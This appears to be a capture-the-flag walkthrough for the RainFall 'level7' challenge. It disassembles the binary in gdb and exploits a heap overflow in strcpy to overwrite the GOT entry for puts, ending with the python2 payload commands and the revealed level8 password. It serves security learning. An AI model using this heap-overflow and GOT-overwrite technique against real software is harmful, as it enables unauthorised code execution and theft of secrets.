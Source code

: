 # Walkthrough

After listing the files in the home directory, a binary file called "level7" was found. Upon executing it, i observed that the binary segfaults when only one argument is passed to it.

```sh
level7@RainFall:~$ ./level7 
Segmentation fault (core dumped)
level7@RainFall:~$ ./level7 AAAA
Segmentation fault (core dumped)
level7@RainFall:~$ ./level7 AAAA BBBB
~~
```

So, I decided to investigate the file further. I used the "objdump" command to look at the functions inside it.

```sh
level7@RainFall:~$ objdump -t ./level7  | grep .text
08048440 l    d  .text 00000000              .text
08048470 l     F .text 00000000              __do_global_dtors_aux
080484d0 l     F .text 00000000              frame_dummy
08048690 l     F .text 00000000              __do_global_ctors_aux
08048680 g     F .text 00000002              __libc_csu_fini
08048682 g     F .text 00000000              .hidden __i686.get_pc_thunk.bx
08048610 g     F .text 00000061              __libc_csu_init
08048440 g     F .text 00000000              _start
080484f4 g     F .text 0000002d              m
08048521 g     F .text 000000e2              main
```

Then I analyzed the file using "gdb". I looked at the "main" function and saw that it allocated memory twice for a structure that had a number and a pointer. The first time it allocated memory, it set the number to 1 and created a new address for the pointer. It did the same thing the second time it allocated memory, but set the number to 2 instead. Then, it used the "strcpy" function to copy the first argument of the "main" function to the pointer of the first structure, and the second argument to the pointer of the second structure. After that, the file opened another file called `"/home/user/level8/.pass"` and read from it using the `fgets` function. The data read from the file was stored in a global variable called `"c"`. Finally, the file printed `"~~"` using the "puts" function.

```s
(gdb) disas main
Dump of assembler code for function main:
   0x08048521 <+0>: push   ebp
   0x08048522 <+1>: mov    ebp,esp
   0x08048524 <+3>: and    esp,0xfffffff0
   0x08048527 <+6>: sub    esp,0x20
   0x0804852a <+9>: mov    DWORD PTR [esp],0x8
   0x08048531 <+16>: call   0x80483f0 <malloc@plt>
   0x08048536 <+21>: mov    DWORD PTR [esp+0x1c],eax
   0x0804853a <+25>: mov    eax,DWORD PTR [esp+0x1c]
   0x0804853e <+29>: mov    DWORD PTR [eax],0x1
   0x08048544 <+35>: mov    DWORD PTR [esp],0x8
   0x0804854b <+42>: call   0x80483f0 <malloc@plt>
   0x08048550 <+47>: mov    edx,eax
   0x08048552 <+49>: mov    eax,DWORD PTR [esp+0x1c]
   0x08048556 <+53>: mov    DWORD PTR [eax+0x4],edx
   0x08048559 <+56>: mov    DWORD PTR [esp],0x8
   0x08048560 <+63>: call   0x80483f0 <malloc@plt>
   0x08048565 <+68>: mov    DWORD PTR [esp+0x18],eax
   0x08048569 <+72>: mov    eax,DWORD PTR [esp+0x18]
   0x0804856d <+76>: mov    DWORD PTR [eax],0x2
   0x08048573 <+82>: mov    DWORD PTR [esp],0x8
   0x0804857a <+89>: call   0x80483f0 <malloc@plt>
   0x0804857f <+94>: mov    edx,eax
   0x08048581 <+96>: mov    eax,DWORD PTR [esp+0x18]
   0x08048585 <+100>: mov    DWORD PTR [eax+0x4],edx
   0x08048588 <+103>: mov    eax,DWORD PTR [ebp+0xc]
   0x0804858b <+106>: add    eax,0x4
   0x0804858e <+109>: mov    eax,DWORD PTR [eax]
   0x08048590 <+111>: mov    edx,eax
   0x08048592 <+113>: mov    eax,DWORD PTR [esp+0x1c]
   0x08048596 <+117>: mov    eax,DWORD PTR [eax+0x4]
   0x08048599 <+120>: mov    DWORD PTR [esp+0x4],edx
   0x0804859d <+124>: mov    DWORD PTR [esp],eax
   0x080485a0 <+127>: call   0x80483e0 <strcpy@plt>
   0x080485a5 <+132>: mov    eax,DWORD PTR [ebp+0xc]
   0x080485a8 <+135>: add    eax,0x8
   0x080485ab <+138>: mov    eax,DWORD PTR [eax]
   0x080485ad <+140>: mov    edx,eax
   0x080485af <+142>: mov    eax,DWORD PTR [esp+0x18]
   0x080485b3 <+146>: mov    eax,DWORD PTR [eax+0x4]
   0x080485b6 <+149>: mov    DWORD PTR [esp+0x4],edx
   0x080485ba <+153>: mov    DWORD PTR [esp],eax
   0x080485bd <+156>: call   0x80483e0 <strcpy@plt>
   0x080485c2 <+161>: mov    edx,0x80486e9
   0x080485c7 <+166>: mov    eax,0x80486eb
   0x080485cc <+171>: mov    DWORD PTR [esp+0x4],edx
   0x080485d0 <+175>: mov    DWORD PTR [esp],eax
   0x080485d3 <+178>: call   0x8048430 <fopen@plt>
   0x080485d8 <+183>: mov    DWORD PTR [esp+0x8],eax
   0x080485dc <+187>: mov    DWORD PTR [esp+0x4],0x44
   0x080485e4 <+195>: mov    DWORD PTR [esp],0x8049960
   0x080485eb <+202>: call   0x80483c0 <fgets@plt>
   0x080485f0 <+207>: mov    DWORD PTR [esp],0x8048703
   0x080485f7 <+214>: call   0x8048400 <puts@plt>
   0x080485fc <+219>: mov    eax,0x0
   0x08048601 <+224>: leave  
   0x08048602 <+225>: ret 
```

Regarding the "m" function, it appears to output the value of the global variable "c" in addition to the result of the "time" function.

```s
(gdb) disas m
Dump of assembler code for function m:
   0x080484f4 <+0>: push   ebp
   0x080484f5 <+1>: mov    ebp,esp
   0x080484f7 <+3>: sub    esp,0x18
   0x080484fa <+6>: mov    DWORD PTR [esp],0x0
   0x08048501 <+13>: call   0x80483d0 <time@plt>
   0x08048506 <+18>: mov    edx,0x80486e0
   0x0804850b <+23>: mov    DWORD PTR [esp+0x8],eax
   0x0804850f <+27>: mov    DWORD PTR [esp+0x4],0x8049960
   0x08048517 <+35>: mov    DWORD PTR [esp],edx
   0x0804851a <+38>: call   0x80483b0 <printf@plt>
   0x0804851f <+43>: leave  
   0x08048520 <+44>: ret 
```

If we consider the situation, it seems that we need a method to execute the "m" function which will print the `".pass"` of `"level8"`. One approach that comes to mind is to replace the original address of the `puts` function in the Global Offset Table (GOT) with the address of the `m` function.

To achieve this, we need to modify the value of the second pointer of the second structure, after the first call to "strcpy", with the address of the "puts" function in the GOT `(0x8049928)`. Then, we should pass the new address of the "m" function `(0x080484f4)` as the source to the second "strcpy".

```
(gdb) r AAAA BBBB
Starting program: /home/user/level7/level7 AAAA BBBB

Breakpoint 1, 0x080485cc in main ()
(gdb) x/52wx 0x804a000
0x804a000: 0x00000000 0x00000011 0x00000001 0x0804a018
0x804a010: 0x00000000 0x00000011 0x41414141 0x00000000
0x804a020: 0x00000000 0x00000011 0x00000002 0x0804a038
0x804a030: 0x00000000 0x00000011 0x42424242 0x00000000
```

In order to accomplish this, i will need to fill the memory with 20 characters and then add the address of the "puts" function in the GOT to it.

```
(gdb) x/52wx 0x804a000
0x804a000: 0x00000000 0x00000011 0x00000001 0x0804a018
0x804a010: 0x00000000 0x00000011 0x41414141 0x41414141
0x804a020: 0x41414141 0x41414141 0x41414141 0x08049928
0x804a030: 0x00000000 0x00000011 0x00000000 0x00000000
```

This is an example in Python demonstrating how to fill the memory and modify the value with the address of the "m" function.

```sh
level7@RainFall:~$ python2 -c  'print("A" * 20  + "\x08\x04\x99\x28"[::-1])' > /tmp/first 
level7@RainFall:~$ python2 -c  'print("\x08\x04\x84\xf4"[::-1])' > /tmp/second
level7@RainFall:~$ ./level7 `cat /tmp/first` `cat /tmp/second`
5684af5cb4c8679958be4abe6373147ab52d95768e047820bf382e44fa8d8fb9
 - 1680760276
```
